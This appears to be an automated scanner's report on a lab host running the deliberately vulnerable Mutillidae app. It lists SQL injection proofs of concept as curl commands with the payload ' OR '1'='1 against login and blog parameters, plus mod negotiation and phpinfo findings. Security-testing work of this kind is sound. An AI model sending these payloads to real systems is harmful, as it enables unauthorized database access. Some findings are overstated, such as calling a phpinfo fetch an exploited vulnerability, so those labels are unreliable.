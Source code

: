 ### SQL Injection (POST - Error-based)
- **Target**: 10.1.3.2:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/add-to-your-blog.php param entry
- **PoC**: `curl -X POST 'http://10.1.3.2/mutillidae/add-to-your-blog.php' --data 'entry=%27+OR+%271%27%3D%271&title=test'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 10.1.3.2:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/add-to-your-blog.php param title
- **PoC**: `curl -X POST 'http://10.1.3.2/mutillidae/add-to-your-blog.php' --data 'entry=test&title=%27+OR+%271%27%3D%271'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 10.1.3.2:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/login.php param username
- **PoC**: `curl -X POST 'http://10.1.3.2/mutillidae/login.php' --data 'username=%27+OR+%271%27%3D%271&password=test'`
- **Proof**: SQL error indicators present

## MEDIUM Risk Exploits

### Mod Negotiation Misconfiguration
- **Target**: 10.1.3.2:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: Mod negotiation enabled, accessed http://10.1.3.2/index.php
- **PoC**: `curl http://10.1.3.2/index.php`
- **Proof**: Exposed directory contains sensitive information: Sensitive keywords found; Large content detected
- **Proof File**: outputs/10.1.3.2_http_mod_negotiation_proof.txt

### PHP 5.2.4 Vulnerability
- **Target**: 10.1.3.2:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: PHP 5.2.4 vulnerability exploited: PHP/5.2.4-2ubuntu5.10.
- **PoC**: `curl 'http://10.1.3.2/phpinfo.php'`
- **Proof**: PHP 5.2.4 vulnerability found: http://10.1.3.2/phpinfo.php
- **Proof File**: outputs/10.1.3.2_http_php_524_proof.txt
